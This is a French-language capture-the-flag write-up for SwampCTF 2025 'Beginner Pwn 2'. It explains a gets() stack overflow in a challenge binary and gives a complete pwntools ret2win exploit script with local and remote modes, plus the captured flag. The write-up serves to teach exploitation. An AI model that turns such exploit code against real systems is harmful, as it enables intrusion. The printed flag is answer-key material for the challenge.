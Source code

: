 # Write-up : Challenge Beginner Pwn 2 - SwampCTF 2025

## Objectif du challenge

Le challenge propose un binaire contenant une fonction qui n'est pas appelée dans le flux d'exécution normal. L'objectif est de détourner le flux d'exécution pour appeler cette fonction et obtenir le flag.

## Analyse initiale

### Vérification des protections

Les résultats de checksec montrent les caractéristiques suivantes :
- RELRO : Partiel
- Stack Canary : Non activé
- NX : Activé
- PIE : Non activé

L'absence de canari de pile et de PIE facilite l'exploitation, car nous pourrons écraser l'adresse de retour sans déclencher de protection et nous connaîtrons l'adresse exacte des fonctions.

### Comportement du programme

À l'exécution, le binaire lit une ligne d'entrée utilisateur et la renvoie avec un message de salutation. Ce comportement simple masque la vulnérabilité sous-jacente.

## Analyse du binaire

### Fonction main

```c
undefined8 main(void)
{
  undefined8 local_12;
  undefined2 local_a;

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  local_12 = 0;
  local_a = 0;
  gets((char *)&local_12);
  printf("Hello, %s!\n", &local_12);
  return 0;
}
```

L'analyse révèle l'utilisation de la fonction `gets()`, connue pour être vulnérable aux débordements de tampon. Cette fonction ne vérifie pas les limites du tampon de destination, permettant d'écrire au-delà de l'espace alloué.

### Fonction win

```c
void win(void)
{
  puts("win");
  FILE *f = fopen("flag.txt", "r");
  fread(&local_38, 1, 0x1e, f);
  printf("Here is your flag! %s\n", &local_38);
  fclose(f);
}
```

Cette fonction n'est jamais appelée dans le programme mais elle ouvre le fichier contenant le flag et l'affiche. C'est notre cible pour l'exploitation.

## Vulnérabilité identifiée

L'utilisation de `gets()` sans aucune vérification des limites constitue une vulnérabilité de débordement de tampon classique. Cette vulnérabilité permettra d'écraser l'adresse de retour stockée sur la pile pour rediriger l'exécution vers la fonction `win()`.

## Détermination de l'offset

Pour trouver l'offset exact permettant d'atteindre l'adresse de retour, un motif cyclique a été utilisé avec GDB-peda :

1. Création d'un motif unique : `pattern_create`
2. Introduction du motif comme entrée au programme
3. Observation de l'adresse qui provoque le SIGSEGV
4. Calcul de l'offset avec `pattern_offset`

L'analyse révèle que l'offset nécessaire est de 18 octets (0x12) pour atteindre l'adresse de retour.

## Conception de l'exploitation

La chaîne d'exploitation est simple, car il suffit de :
1. Écrire 18 octets de remplissage
2. Écraser l'adresse de retour avec l'adresse de la fonction `win()`

Structure du payload :
```
[remplissage de 18 octets] + [adresse de win()]
```

## Script d'exploitation

```python
#!/usr/bin/env python3

from pwn import *
import argparse
import sys

BUFFER_OFFSET = 0x12

def build_payload(win_addr):
    payload  = b"A" * BUFFER_OFFSET
    payload += p64(win_addr)
    return payload

def run_local(path):
    print(f"[*] Exécution locale: {path}")
    elf = ELF(path)
    context.binary = elf
    return elf, process(path)

def run_remote(host, port, path):
    print(f"[*] Connexion à {host}:{port}")
    elf = ELF(path)
    context.binary = elf
    return elf, remote(host, port)

def main():
    parser = argparse.ArgumentParser(description="Exploitation pour Beginner Pwn 2")
    subparsers = parser.add_subparsers(dest="mode", required=True)

    # Mode local
    local_parser = subparsers.add_parser("local")
    local_parser.add_argument("binary", type=str, help="Chemin vers le binaire local")

    # Mode distant
    remote_parser = subparsers.add_parser("remote")
    remote_parser.add_argument("ip", type=str, help="IP distante")
    remote_parser.add_argument("port", type=int, help="Port distant")
    remote_parser.add_argument("binary", type=str, help="Chemin vers le binaire pour la résolution des symboles")

    args = parser.parse_args()

    # Configuration
    if args.mode == "local":
        elf, io = run_local(args.binary)
    else:
        elf, io = run_remote(args.ip, args.port, args.binary)

    # Construction et envoi du payload
    win_addr = elf.symbols["win"]
    payload = build_payload(win_addr)

    io.sendline(payload)

    # Extraction du flag
    try:
        io.readuntil(b"swampCTF{")
        flag = "swampCTF{" + io.readuntil(b"}").decode()
        print(f"[+] Flag: {flag}")
    except:
        print("[-] Échec de la capture du flag.")
        io.interactive()

    io.close()

if __name__ == "__main__":
    main()
```

## Exécution et résultat

L'exécution du script d'exploitation aboutit à l'affichage du flag :
```
[+] Flag: swampCTF{1t5_t1m3_t0_r3turn!!}
```

## Conclusion

Ce challenge illustre un cas classique de vulnérabilité par débordement de tampon, facilitée par :

1. L'utilisation de la fonction dangereuse `gets()`
2. L'absence de canari de pile pour détecter les débordements
3. L'absence de PIE, rendant l'adresse de la fonction `win()` prévisible

L'exploitation consiste simplement à écraser l'adresse de retour pour rediriger le flux d'exécution vers une fonction existante mais normalement inaccessible, technique connue sous le nom de ret2win.
